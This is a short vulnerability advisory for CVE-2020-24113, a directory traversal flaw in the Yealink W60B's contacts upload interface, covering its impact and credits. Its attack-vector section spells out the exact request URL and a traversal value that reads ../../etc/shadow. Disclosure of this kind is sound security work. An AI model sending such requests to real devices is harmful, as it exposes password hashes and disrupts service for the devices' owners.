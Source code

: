 === Content from fuo.fi_4d97fc77_20250110_121558.html ===


CVE-2020-24113

## [Description] Directory Traversal vulnerability in Contacts File Upload Interface in Yealink W60B version 77.83.0.85, allows attackers to gain sensitive information and cause a denial of service (DoS).

> [Vulnerability Type]
>
> > Directory Traversal

---

> [Affected Component]
>
> > Contacts file upload interface

---

> [Attack Type]
>
> > Context-dependent

---

> [Impact Denial of Service]
>
> > true

---

> [Impact Information Disclosure]
>
> > true

---

> [Attack Vectors]
>
> > You go to
> > https://{IP}/servlet?m=mod\_data&p=contacts-preview&q=load&handsetid=7&filename={file}
> > and substitute the {file} parameter with the file you want
> > to read, i.e. ../../etc/shadow or ../../proc/cpuinfo

---

> [Discoverer]
>
> > fuomag9

---

> [Reference]
>
> > <http://yealink.com>

---

> [Vendor of Product]
>
> > Yealink

---

> [Affected Product Code Base]
>
> > Yealink W60B 77.83.0.85

---


